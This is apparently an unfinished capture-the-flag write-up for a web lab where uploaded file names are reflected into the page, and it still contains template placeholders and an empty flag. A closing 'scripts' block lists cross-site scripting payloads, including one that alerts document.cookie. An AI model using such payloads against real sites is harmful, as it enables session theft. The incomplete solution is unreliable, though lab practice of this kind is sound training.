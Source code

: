 # Write Up

## Challenge name
File Names Are Also Vulnerable!
https://labs.hacktify.in/HTML/html_lab/lab_3/index.php

## Category
Category...

## description
- go to the url
- there is a form that lets you upload files
- it consinst of
  - a button to choose a file, a button "File upload" to submit  your file

## solution
- submiting a file "myfile.txt"
- returns a confirmation and a text below the form
```
<h2>
  File Uploaded 
  <b>amlo.txt</b>
</h2>
```
- adding tags to the name


## flag
```
flag{}
```
<details>
  <summary>Example</summary>

  ```
  long console output here
  ```
</details>

scripts
```

?user=mytext</b>"<img+src=x+onerror=alert(document.cookie)>



?user=mytext</b>"<script>window.open('https://www.google.com')</Script>

</b>"<Svg onclick="window.open('https://www.google.com', '_blank')"></svg>

mytext</b>"<Svg onclick=alert(system("ls"))></svg>
```